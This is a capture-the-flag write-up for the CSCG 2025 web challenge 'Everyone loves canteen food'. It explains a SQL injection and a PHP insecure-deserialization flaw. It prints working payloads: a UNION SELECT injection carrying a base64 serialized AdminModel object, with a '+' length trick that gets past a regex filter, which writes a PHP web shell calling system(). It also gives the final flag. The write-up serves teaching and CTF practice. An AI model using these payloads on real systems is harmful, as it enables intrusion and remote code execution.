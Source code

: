 ```yaml
---
title: Everyone loves canteen food - CSCG 2025 - Write-Up
date: 2025-04-24 10:01:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [sqli,insecure_deserialization]
description: Find a SQL injection vulnerability and a insecure object deserialization vulnerability to get the flag.
image:
  path: /assets/blog/Everyone loves canteen food/app.png
  alt: CSCG image
---
```



This Write-Up showcases the solution for the challenge titled as "Everyone loves canteen food" within the web category of CSCG 2025. The challenge was created by `Poory` and is rated as medium.

## Intro

The challenge is presented with the following description:

> Welcome to the canteen's online menu, where you can check out the daily specials and their prices. But is everything as appetizing as it seems?
> 
> Flagformat: `string which has to be put in dach2025{<string>}`

The application is a straightforward PHP solution that allows users to view the cafeteria menu. Within the app you can also filter the plan. Moreover, it includes an administrative function for creating and viewing logs.

![Screenshot of the cafeteria menu page](/assets/blog/Everyone%20loves%20canteen%20food/app.png)


## Vulnerability Analysis

The both vulnerabilities can be found in the `models/CanteenModel.php` script. This script is used for retrieving the food from the database and transforming it to readable table entires.

### SQL Injection

The function `filterFood()` takes a price parameter when it is called from `controllers/CanteenController.php`. The parameter employed in the `filterFood()` function is susceptible to manipulation by an attacker, as it is obtained directly from the URL via `$_GET['price']`.

```php
if(isset($_GET['price'])) {
    return $router->view('index', ['food' => $food->filterFood($_GET['price'])]);
}
``` 

The function builds a SQL query to filter the foods according to the price, for that the `$price_param` is simply appended to the query. Given that the `$price_param` variable is extracted directly from the URL 
using `$_GET['price']`, you can manipulate it, leading to the creation of an **SQL injection vulnerability**.

```php
public function filterFood($price_param) {
    $log_entry = 'Access at: '. date('Y-m-d H:i:s') .   "<br>\n";
    $logger = new AdminModel("../logs.txt", $log_entry);


    $db = Database::getConnection();
    $sql = "SELECT * FROM food where price < " . $price_param;
    if ($result = $db->query($sql)) {
        $result_string = "";
        ...
    }

    return 'Everything is too expensive for you this week, Sir/Madame. We\'re sorry!';
}
```

### Insecure Deserialization

The second vulnerability found in `models/CanteenModel.php` is a insecure deserialization vulnerability, this vulnerability **can** lead to **RCE**. After the SQL query is retrieved, each object in the database is checked if it has the `oldvalue` property set, if so the value is base64 decoded and saved as `$dec_result`. As a result of not matching the defined regular expression, the `$dec_result` string is subjected to the `unserialize()` function. This allows for the conversion of malicious strings into PHP objects, potentially leading to Remote Code Execution (RCE).

Note: The impact in this application is actually first a **arbitrary file write**, because the available classes only allow that, but because of that you can create PHP files which is finally RCE.

```php
while($obj = $result->fetch_object()){
    ...
    if($obj->oldvalue !== '') {
        $dec_result = base64_decode($obj->oldvalue);
        if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
            return 'Not allowed';
        }
        $uns_result = unserialize($dec_result);
        if ($uns_result[1] < $price_param) {
            $result_string .= $uns_result[0] . ' for ' . $uns_result[1] . '<br>';
        }
    }
}
```

## Exploit

With the SQL injection vulnerability you can display any kind of food on the page and inject malicious data entries to the page.
```
Payload: /?price=1 UNION SELECT 1000,'FOOD', '', 100.99
Returns: FOOD for 100.99
```

Also by exploiting the SQL injection vulnerability, you can input any desired value for the `oldvalue` parameter by incorporating an additional `SELECT` statement in our query. Theoretically you can use this `unserialize()` function to create a object and execute code, but for that you first need a class which has the capabilities for this.

The PHP `serialize` function allows objects and more generally data to be serialized into a standardized string which can easily be stored. This allows you to store data needed later in such an string and you use it easily when you need it. Although this may sound extremely useful it comes with risks. If specific classes are used in the code and an attacker has access to the deserialization and these classes contain so called 'gadgets' you can achieve RCE or other actions implemented in the classes of the vulnerable application. In this application there exists 'only' a arbitrary file write gadget, with the `AdminModel` class.


This class can be used because the `index.php` file additionally integrates the `AdminModel` class derived from `models/AdminModel.php`. The `__wakeup` function is a so called gadget, if its set it will execute if the object is initialized, which allows us to write to files.

```php
class AdminModel {
    public $filename;
    public $logcontent;

    public function __construct($filename, $content) {
        $this->filename = $filename;
        $this->logcontent = $content;
        file_put_contents($filename, $content, FILE_APPEND);
    }

    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);
    }

    public static function read_logs($log) {
        $contents = file_get_contents($log);
        return $contents;
    }
}
```

The `__wakeup` function calls the `LogFile` class, which writes to a file:

```php
class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);
    }
}
```

The `AdminModel` class can be used to create PHP file. Now you can then call this PHP file and retrieve the flag. The last issue is the regex:
```php
preg_match_all('/O:\d+:"([^"]*)"/')
```

It checks if the string you send has a serialized PHP object in form of `O:len:"name"` in it, the issue is that the standard PHP object is in this format. For the attack to be successful, you need a serialized object which will use the `AdminModel` class. Below is an example of a simple PHP object for reference.

```
O:4:"user":2:{s:3:"age";i:80;s:4:"name";s:3:"James";}
```

In the source code of PHP you may find that you can add a `+` in front of an integer if you have an integer as a variable. If you can add a `+` for the length of the object name you would effectively escape the regular expression. For that you may check the PHP [source code](https://github.com/php/php-src/blob/9285559c8cb61e986dd67132683bc6c52b1048f5/ext/standard/var_unserializer.re) for the `unserialize()` function, you will find out that this is possible. This allows us to execute our payload. 

Here is the plan again:

1. Utilize the SQL injection vulnerability to insert extra food, making 
use of the `oldvalue` parameter.
2. The base64 decoded `oldvalue` is then fed into the `unserialize()` 
function.
3. Leverage the `AdminModel` object to write a PHP file on the system.
4. The generated PHP file can call the `/readflag` binary, which will 
subsequently return the flag.

Firstly I generated a object. This can be done by copying the class `AdminModel` and `LogFile` in a new file and then creating an object that way (be careful it will actually write the file if you create a new object). 
```
O:10:"AdminModel":2:{s:8:"filename";s:13:"/www/flag.php";s:10:"logcontent";s:29:"<?php system("/readflag"); ?>";}
```

To escape the regular expression you need to modify the serialized object and add a `+` in front of the 10 which is the length of the class name.
```
O:+10:"AdminModel":2:{s:8:"filename";s:13:"/www/flag.php";s:10:"logcontent";s:29:"<?php system("/readflag"); ?>";}
```

Next you can carefully construct the `oldvalue` by `base64`/URL encoding the payload.

```text
TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTM6Ii93d3cvZmxhZy5waHAiO3M6MTA6ImxvZ2NvbnRlbnQiO3M6Mjk6Ijw%2FcGhwIHN5c3RlbSgiL3JlYWRmbGFnIik7ID8%2BIjt9
```

Lastly I added the SQL query before and after to get the final payload:
```text
1 UNION SELECT 1000,'', 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTM6Ii93d3cvZmxhZy5waHAiO3M6MTA6ImxvZ2NvbnRlbnQiO3M6Mjk6Ijw%2FcGhwIHN5c3RlbSgiL3JlYWRmbGFnIik7ID8%2BIjt9', 100.99
```

If you use this payload as the price variable (`?price=<payload>`), the server will write a `flag.php` file to the servers root directory. You can then access it with `/flag.php` to get the flag.


## Flag

```
dach2025{sh1ty_r3g3x_w0nt_s4fe_y0u}
```